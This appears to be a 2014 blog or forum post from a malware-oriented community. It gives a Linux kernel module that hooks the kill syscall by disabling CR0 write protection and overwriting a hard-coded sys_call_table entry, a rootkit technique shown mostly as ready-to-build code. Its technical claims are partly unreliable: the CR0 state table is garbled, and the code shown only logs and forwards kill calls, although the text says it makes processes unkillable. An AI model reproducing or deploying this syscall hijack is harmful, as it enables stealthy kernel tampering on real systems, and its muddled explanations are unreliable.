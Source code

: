 Today I come with a small demo of a hook in Ring0
that I just finished, which will serve to make all the processes in Ring3 immortal.

Since kernel versions 2.6, write permissions have been removed,  leaving read-only permissions and the syscall table cannot be exported.
So we must find another method to hooke the syscall table, one of them is looking in "boot/System.map" where you can find the addresses to the syscall(in my case System.map-3.2.6).

The standard **__NR_kill** is to hook **kill_pid** but if you want another function just look at the syscall_table and look for the correct **NR**.
In order to allow read/write and make a successful hook we need to momentarily disable the CR0(control register) bit which is in charge of protecting memory sections against writes.
CR0 has 2 states:<br/>
```
0x0000 = read/write mode.
0x0001 = write mode.
```

The 2 functions that I will use for this are native_read_cr0 and native_write_cr0 which will allow us to alter their states.<br/>
In my case the System.map-3.2.6 file contained the pointer to the *syscall table* and *kill pid* at the following addresses:
```
25940 - c1562120 R sys_call_table
2169 - c105bb80 T kill_pid
```

So on your systems it may not work, this is why I mentioned above to look at the **System.map** file, if you try it on your own....
Once the driver is installed if we try to kill any process, this is what happens.

![1](/images/1.png)

Once uninstalled, the processes can be killed normally:

![2](/images/2.png)

Code:
```C
/*
	Author: NvK
	Thanks to: http://memset.wordpress.com/2010/12/03/syscall-hijacking-kernel-2-6-systems/
	Description: Makes all processes in ring3 immortal
*/
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/unistd.h>
#include <linux/mm.h>
#include <linux/highmem.h>

#include <asm/cacheflush.h>
#include <asm/io.h>
#include <asm/setup.h>
#include <asm/system.h>
#include <asm/pgtable.h>
#include <asm/pgalloc.h>

#define ELF_INITED 		".text.data"
#define ELF_BEGIN		".text.text"

static unsigned long kill_calls= 0;
// Puntero a la tabla
unsigned long *sys_call_table= (unsigned long*)0xc1562120;
// Función restaurada...
asmlinkage int (*original_kill)(pid_t, int);

int call_x86_hook_kill(pid_t pid, int sig)
{
	printk(KERN_ALERT "\n[+] x86 kill Hooked %ld", kill_calls++);
	return (*original_kill)(pid, sig);
}

static int __section(.init.text)__attribute__((cold)) notrace INIT_KERNEL(void)
{
	// desactivar bit de control
	native_write_cr0(native_read_cr0()&(~0x10000));
	
	original_kill= (void *)sys_call_table[__NR_kill];
	sys_call_table[__NR_kill]= call_x86_hook_kill;
	
	// activar bit de control(volver a su estado normal)
	native_write_cr0(native_read_cr0() | 0x10000);
  
  return 0;
}

static void __section(.exit.data) EXIT_KERNEL(void)
{
	native_write_cr0(native_read_cr0()&(~0x10000));
	sys_call_table[__NR_kill]= original_kill;
	native_write_cr0(native_read_cr0() | 0x10000);
	
	return;
}

module_init(INIT_KERNEL);
module_exit(EXIT_KERNEL);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Nvk");
MODULE_DESCRIPTION("ring0 x86 hook - [kill poc]");
```

if you just want to know how many times the system has made the syscall change the following line:

> int call_x86_hook_kill(pid_t pid, int sig)

for this one:

> asmlinkage call_x86_hook_kill(pid_t pid, int sig)


My original post: https://indetectables.net/viewtopic.php?t=50056
Date: May 26, 2014
